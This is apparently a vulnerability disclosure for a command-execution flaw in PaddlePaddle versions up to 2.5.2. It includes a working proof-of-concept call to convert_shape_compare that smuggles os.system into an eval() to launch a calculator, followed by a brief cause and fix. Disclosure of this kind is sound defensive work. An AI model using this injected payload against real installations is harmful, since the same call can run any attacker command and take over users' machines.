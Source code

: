 
Vulnerability Product: Baidu.Inc PaddlePaddle's paddle  
Vulnerability Version: <= 2.5.2  
Vulnerability Type: Command Execution  
Vulnerability Vender: Baidu.Inc  
Vulnerability Details:  discovered by leeya_bug  
Vulnerability Location: paddle/jit/dy2static/convert_operators.py  

## [](#header-3)Basic Info:

Baidu,Inc is a Chinese multinational technology company specializing in Internet-related services, products, and artificial intelligence(AI), headquartered in Beijing's Haidian District. It is one of the largest AI and Internet companies in the world. The holding company of the group is incorporated in the Cayman Island.  

Baidu.Inc PaddlePaddle's Official lib paddle exists Command Execute Vulnerability, Easy to cause user's devices to be hijacked by attackers.

## [](#header-3)PROVE: 

0、Prepare a computer which can run Python3 and Windows10(or other os if you construct a suitable payload)  

1、Download paddle latest version(or <= v2.5.2 if paddle updated)  
```
pip3 install paddlepaddle==2.5.2
```

2、Run Python3, Construct a payload that can run calculator, And run belowing code in python  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

3、You can find it successfully run calculator  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis1.png)  
proved Command Execution  

POC:  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

## [](#header-3)REASON: 

There is an unfiltered dangerous function (line 681) in API:convert_shape_compare of path paddle/jit/dy2static/convert_operators.py, allowing attackers to construct payloads to bypass the filter and result in user's command execution
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis2.png)  

## [](#header-3)FIX: 

1、do not use eval()  
2、filter more  

discovered by leeya_bug  
2023/12/15  

-------------------
2023/12/16 update: uppercase letter 

